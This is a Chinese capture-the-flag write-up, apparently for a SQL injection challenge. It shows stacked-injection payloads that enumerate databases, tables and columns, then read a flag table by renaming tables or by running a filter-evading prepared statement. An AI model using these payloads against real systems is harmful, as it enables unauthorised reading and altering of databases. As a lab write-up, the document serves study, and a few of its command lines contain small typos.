 ![image-20220625165808025](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251658077.png?x-oss-process=hzy)

被过滤了，采用堆叠注入，先查询数据库

```
1’;show databases;--+
```

![image-20220625170001721](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251700782.png?x-oss-process=hzy)

查表

```
1';show tables;--+
```

![image-20220625170030160](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251700223.png?x-oss-process=hzy)

分别查询两个表的字段

```
1'; show columns from `1919810931114514` ;--+
1’; show columns from words;--+
```

![image-20220625170405564](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251704632.png?x-oss-process=hzy)![image-20220625170905218](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202206251709296.png?x-oss-process=hzy)

查询字段内容

两种方法

- 改表名

  根据在words表里发现id字段与查询框里的出的数据类型相同，一个数字，一个字符串，所以猜测默认查询的就是words表，inject（搜索框中）值应该赋给了id
  **利用**：我们可以将含有flag字段的表命名为word，然后修改字段名字，不就查询到我们想要的结果！（前提是这里rename，alert关键字 没有做过滤）

  ```
   ; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50); #
   拆开：
  ;  alter tables words rename to words1; 
  ;  alter tables `1919810931114514` rename to words ;
  ;  alter tables words change flag id varchar(50); #
  ```

  查看flag：

  ```
  1' or 1=1 #  //即可得到
  ```

- 预编译

  payload

  

```
1';sEt @sql = CONCAT('se','lect * from `1919810931114514`;');prEpare stmt from @sql;EXECUTE stmt;#
```
